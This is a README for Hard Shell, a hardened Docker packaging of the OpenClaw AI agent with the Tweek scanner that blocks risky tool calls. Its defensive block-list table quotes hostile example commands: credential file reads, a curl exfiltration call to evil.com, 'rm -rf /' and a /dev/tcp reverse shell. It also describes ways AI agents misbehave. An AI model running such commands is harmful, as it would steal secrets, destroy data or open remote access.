

<p align="center">
  
</p>

# Hard Shell

**A security-hardened Docker distribution of [OpenClaw](https://github.com/openclaw/openclaw) with built-in AI safety guardrails.**

Hard Shell bundles OpenClaw — the open-source AI agent — with [Tweek](https://github.com/gettweek/tweek), a security layer that screens every tool call for dangerous patterns before execution. One command to install, zero configuration required.

> **Note:** Hard Shell is purpose-built for OpenClaw. If you use a different AI agent (Claude Code, Cursor, Windsurf, Cline, etc.), use **[Tweek](https://github.com/gettweek/tweek)** directly — it works with any agent, not just OpenClaw.

---

## Why Hard Shell?

AI agents are powerful but risky. They can:
- Read your SSH keys and AWS credentials
- Execute `rm -rf /` or other destructive commands
- Exfiltrate secrets via curl to external servers
- Install malicious dependencies

**Hard Shell stops these attacks.** Every command the AI wants to run passes through Tweek's security scanner first. Dangerous operations are blocked before they execute.

```
┌─────────────────────────────────────────────────────────────────┐
│                         Hard Shell                              │
│  ┌───────────────┐      ┌───────────────┐      ┌─────────────┐ │
│  │   OpenClaw    │ ───▶ │  Tweek Plugin │ ───▶ │   Scanner   │ │
│  │   Gateway     │      │  (intercept)  │      │  (approve/  │ │
│  │   :18789      │ ◀─── │               │ ◀─── │   deny)     │ │
│  └───────────────┘      └───────────────┘      └─────────────┘ │
└─────────────────────────────────────────────────────────────────┘
```

---

## Quick Start

### Prerequisites
- [Docker](https://docs.docker.com/get-docker/) (with Docker Compose)
- [Git](https://git-scm.com/downloads)
- An LLM API key (Anthropic, OpenAI, or other supported provider)

### Install (one command)

```bash
curl -fsSL https://raw.githubusercontent.com/gettweek/hard-shell/master/install.sh | bash
```

That's it. The installer clones this repo into `./hard-shell/` in your current directory, builds the Docker image locally, generates a secure gateway token, and starts the hardened container. No Docker Hub account or pre-built images required — everything builds from source on your machine.

You can install multiple instances in different directories, each with their own configuration and data.

**First build takes ~5 minutes** (downloads OpenClaw + Tweek + dependencies). Subsequent builds are fast thanks to Docker layer caching.

### Or install manually

```bash
git clone https://github.com/gettweek/hard-shell.git
cd hard-shell
mkdir -p data/openclaw data/tweek data/workspace
docker compose up -d
```

### Configure your API key

The installer prompts for your API key during setup. If you skipped it or need to change it:

```bash
hard-shell apikey
hard-shell restart
```

### Connect

Open the gateway URL printed after install (includes auth token), or run `hard-shell url` to get it.

### Manage

The installer adds `hard-shell` to your PATH — run from anywhere:

```bash
hard-shell status     # Check container health
hard-shell logs -f    # Follow live logs
hard-shell restart    # Restart the container
hard-shell stop       # Stop the container
hard-shell update     # Pull latest code, rebuild, and restart
hard-shell preset     # View or change security preset
hard-shell apikey     # Configure your LLM API key
hard-shell url        # Print the gateway URL with auth token
hard-shell uninstall  # Remove everything
hard-shell logs app   # View structured app logs
hard-shell logs audit # View security audit trail
hard-shell logs search <term>  # Search all log files
hard-shell logs stats # Log summary (sizes, startup time, errors)
```

---

## Logging

Hard Shell writes structured JSONL logs for machine parsing and a separate security audit trail. All logs are stored in `data/logs/` (bind-mounted from the container).

### Log Files

| File | Format | Description |
|------|--------|-------------|
| `data/logs/hard-shell.log` | JSONL | Application log — startup, config, health events |
| `data/logs/audit.log` | JSONL | Security audit trail — startup, shutdown, token generation, config changes |

### Log Format

Each line is a JSON object:

```json
{"ts":"2026-02-06T12:00:00.123Z","level":"INFO","component":"scanner","msg":"Scanner server ready","extra":{"port":9878,"startup_ms":1200}}
```

Fields: `ts` (ISO 8601), `level` (INFO/WARN/ERROR), `component` (entrypoint/scanner/gateway/healthcheck/audit), `msg`, optional `extra`.

### Log Rotation

- `hard-shell.log` is rotated at startup when it exceeds 10MB (keeps 3 rotated files)
- `audit.log` is never rotated (append-only security requirement)

### Security

- API keys and sensitive values are never written to log files
- The `mask_sensitive()` helper redacts values before logging
- Audit log provides a tamper-evident trail of security-relevant events

---

## What Gets Blocked?

Tweek screens tool calls using pattern matching, sandboxed execution, and LLM review. Here's what the `cautious` preset (default) blocks:

| Threat | Example | Action |
|--------|---------|--------|
| Credential theft | `cat ~/.ssh/id_rsa` | **Blocked** |
| Secret exfiltration | `curl evil.com -d @.env` | **Blocked** |
| Destructive commands | `rm -rf /` | **Blocked** |
| Reverse shells | `bash -i >& /dev/tcp/...` | **Blocked** |
| Keychain access | `security dump-keychain` | **Blocked** |
| AWS credential read | `cat ~/.aws/credentials` | **Blocked** |

Safe operations like `ls`, `grep`, reading project files, and running tests pass through normally.

---

## Security Presets

Hard Shell supports three security levels via the `TWEEK_PRESET` environment variable:

| Preset | Description | Best For |
|--------|-------------|----------|
| `trusted` | Minimal scanning, fingerprint-based approval | Trusted environments, CI/CD |
| `cautious` | Balanced security with LLM review (default) | Daily development |
| `paranoid` | Maximum security, manual approval required | Sensitive codebases |

Change the preset in your install directory's `.env`:

```bash
TWEEK_PRESET=paranoid
```

---

## Container Security

Hard Shell follows Docker security best practices:

- **Non-root user** — Runs as `node` (UID 1000), not root
- **Read-only filesystem** — Container filesystem is immutable
- **Dropped capabilities** — All Linux capabilities removed
- **No privilege escalation** — `no-new-privileges` enforced
- **Resource limits** — Memory (2GB) and PID limits prevent resource exhaustion
- **Localhost binding** — Gateway only accessible from 127.0.0.1 on the host (Docker port mapping)
- **Smart bind detection** — Inside Docker, gateway binds `0.0.0.0` (required for Docker port forwarding) while Docker itself restricts host access to `127.0.0.1`. Outside Docker (bare metal), defaults to loopback. Override with `OPENCLAW_BIND_MODE`.
- **Secure auth** — `allowInsecureAuth` disabled by default; auto-enabled when running inside Docker (safe — host port is localhost-only) or when explicitly set to loopback
- **Hardened permissions** — `.openclaw/`, `.tweek/`, and `credentials/` dirs are 700
- **Post-startup audit** — `openclaw doctor --fix` and `openclaw security audit --deep` run at every boot
- **Tailscale auto-detection** — If Tailscale is available in the container, binding adapts automatically
- **Immutable configs** — Security configs (`openclaw.json`, `tweek.yaml`, plugin config) are locked read-only after startup. A compromised agent cannot disable its own safety checks.
- **No SSH** — No SSH client or server is installed in the container image
- **Network egress control** — Outbound connections can be restricted via Docker network policies (see below)

### Tailscale ACLs (Multi-Device Setups)

If you run Hard Shell on a Tailscale network, use ACL tags to prevent lateral movement if the agent is compromised. In your Tailscale admin console, add:

```json
{
  "tagOwners": {
    "tag:hard-shell": ["autogroup:admin"],
    "tag:workstation": ["autogroup:admin"]
  },
  "acls": [
    {
      "action": "accept",
      "src": ["tag:workstation"],
      "dst": ["tag:hard-shell:18789"]
    },
    {
      "action": "deny",
      "src": ["tag:hard-shell"],
      "dst": ["*:*"]
    }
  ]
}
```

This allows your workstation to reach the Hard Shell gateway, but the Hard Shell machine **cannot initiate connections** to anything else on your tailnet. Even if compromised, lateral movement is blocked.

### Network Egress Restrictions

For maximum isolation, restrict the container's outbound network access to only your LLM provider's API:

```yaml
# docker-compose.override.yml
services:
  hard-shell:
    networks:
      - restricted
networks:
  restricted:
    driver: bridge
    internal: true  # No outbound internet access
```

> **Note:** `internal: true` blocks all outbound traffic including LLM API calls. Use this only if the LLM is hosted locally, or configure iptables rules for selective egress.

---

## Configuration

### Environment Variables

| Variable | Default | Description |
|----------|---------|-------------|
| `TWEEK_PRESET` | `cautious` | Security preset (`trusted`, `cautious`, `paranoid`) |
| `OPENCLAW_GATEWAY_PORT` | `18789` | Gateway HTTP port |
| `OPENCLAW_BIND_MODE` | auto-detect | Gateway bind mode (`loopback` or `lan`). Inside Docker: defaults to `lan` (Docker port mapping provides host-side security). Outside Docker: defaults to `loopback`; auto-detects Tailscale. |
| `ANTHROPIC_API_KEY` | — | Your Anthropic API key |

### Files

After install, `hard-shell/` in your current directory contains everything:

```
hard-shell/
├── .env                    # Your environment variables (API keys, preset) — not tracked
├── hard-shell              # CLI script — run ./hard-shell <command>
├── Dockerfile              # Multi-stage Docker build
├── docker-compose.yml      # Hardened container configuration
├── install.sh              # The installer you ran
├── data/                   # Persistent data (bind-mounted into container)
│   ├── openclaw/           # OpenClaw config and state
│   ├── tweek/              # Tweek config and scanner tokens
│   ├── workspace/          # Working files
│   └── logs/               # Structured JSONL logs and audit trail
├── config/
│   ├── openclaw.json       # OpenClaw gateway settings
│   └── tweek.yaml          # Tweek scanner settings
├── scripts/
│   ├── entrypoint.sh       # Container startup orchestrator
│   └── healthcheck.sh      # Docker health probe
└── tweek-openclaw-plugin/  # TypeScript security plugin source
```

---

## How It Works

1. **OpenClaw Gateway** receives requests from your IDE or browser
2. **Tweek Plugin** intercepts every tool call before execution
3. **Scanner Server** analyzes the command using:
   - Pattern matching against known dangerous commands
   - Sandboxed speculative execution
   - LLM-based semantic review (optional)
4. **Decision** is returned: `allow`, `deny`, or `ask`
5. **Blocked commands** never execute — the AI receives an error message instead

---

## What is OpenClaw?

[OpenClaw](https://github.com/openclaw/openclaw) is an open-source AI agent with 100K+ GitHub stars. It provides:

- Multi-model support (Claude, GPT-4, Gemini, local models)
- IDE integrations (VS Code, JetBrains, Neovim)
- Web UI and CLI interfaces
- Extensible plugin system

Hard Shell packages OpenClaw with security hardening so you get all the power with guardrails in place.

---

## What is Tweek?

**[Tweek](https://github.com/gettweek/tweek)** is an open-source security scanner for AI agents. If Hard Shell is the armored vehicle, Tweek is the weapons system inside it.

Tweek works by intercepting every tool call an AI agent makes — shell commands, file writes, web requests — and running them through a multi-layer screening pipeline before they execute. It's designed to catch both known attack patterns (credential theft, reverse shells) and novel threats (obfuscated payloads, multi-step attack chains).

### Tweek's Security Layers

| Layer | What It Does | Speed |
|-------|-------------|-------|
| **Pattern Matching** | Regex-based detection of known dangerous commands (exfiltration, credential access, destructive ops) | <1ms |
| **Family Analysis** | Groups related patterns into threat families (e.g., `exfiltration`, `persistence`, `privilege_escalation`) for correlated detection | <1ms |
| **Sandboxed Execution** | Runs commands in a restricted sandbox to observe behavior before allowing real execution | ~50ms |
| **LLM Semantic Review** | Uses an LLM to evaluate whether a command is dangerous in context (catches novel attacks that patterns miss) | ~200ms |
| **Skill Guard** | Scans third-party skills and plugins for red flags (external downloads, obfuscated code, persistence mechanisms) before installation | <10ms |
| **Output Scanning** | Monitors AI responses for leaked credentials, API keys, and sensitive data | <5ms |
| **Session Analysis** | Tracks patterns across an entire session to detect multi-step attack chains that look innocent individually | continuous |

### Hard Shell vs Tweek Standalone

Tweek can run standalone on any machine with any AI agent — it doesn't require Docker or Hard Shell. Hard Shell is the **OpenClaw-specific, batteries-included distribution** that bundles Tweek with OpenClaw inside a hardened container, adding infrastructure-level protections (read-only filesystem, dropped capabilities, network isolation) on top of Tweek's screening layer.

| | Hard Shell | Tweek Standalone |
|---|---|---|
| **AI agent** | OpenClaw only | Any (Claude Code, Cursor, Windsurf, Cline, OpenClaw, etc.) |
| **Install** | One command, Docker-based | `pip install tweek` |
| **Scope** | Full stack (OpenClaw + security + hardened container) | Security layer only |
| **Infrastructure hardening** | Read-only FS, no SSH, dropped caps, resource limits | Your responsibility |
| **Config management** | Automatic, immutable after startup | Manual |
| **Best for** | OpenClaw production deployments, untrusted environments | Adding security to any existing AI coding setup |

**Using OpenClaw?** Hard Shell gives you the full hardened stack in one command.

**Using something else?** Use **[Tweek](https://github.com/gettweek/tweek)** directly — it integrates with any AI agent.

For more on Tweek's architecture, threat model, and configuration: **[github.com/gettweek/tweek](https://github.com/gettweek/tweek)**

---

## Development

### Build and Run

```bash
git clone https://github.com/gettweek/hard-shell.git
cd hard-shell
docker compose up -d
```

### Run Tests

```bash
pip install pytest

# Full integration test suite (builds image + starts container)
pytest tests/ -v
```

Tests cover container hardening, image contents, service startup, plugin integration, and live screening verification (78 tests total).

### Project Structure

```
hard-shell/
├── Dockerfile              # Multi-stage build
├── docker-compose.yml      # Production compose file
├── install.sh              # One-line installer
├── config/                 # Default configurations
├── scripts/                # Entrypoint and healthcheck
├── tweek-openclaw-plugin/  # TypeScript plugin source
└── tests/                  # Integration test suite
```

---

## FAQ

**Q: Does this slow down the AI?**
A: Minimally. Pattern matching adds <10ms per tool call. LLM review (when enabled) adds ~200ms but only for risky commands.

**Q: Can I use my own LLM provider?**
A: Yes. OpenClaw supports Anthropic, OpenAI, Google, and local models via Ollama. Configure in `~/.hard-shell/config/openclaw.json`.

**Q: What if Tweek blocks something I need?**
A: You can adjust the preset, add custom allow rules in `tweek.yaml`, or temporarily disable specific checks.

**Q: Is my data sent anywhere?**
A: No. Hard Shell has no telemetry. All scanning happens locally. Your code and commands stay on your machine.

---

## License

Apache 2.0 — See [LICENSE](LICENSE)

---

## Links

- [OpenClaw](https://github.com/openclaw/openclaw) — The AI agent
- [Tweek](https://github.com/gettweek/tweek) — AI security scanner
- [Report Issues](https://github.com/gettweek/hard-shell/issues)

---

<p align="center">
  <b>Hard Shell</b> — OpenClaw with guardrails.<br>
  Built by <a href="https://gettweek.com">Tweek Security</a>
</p>
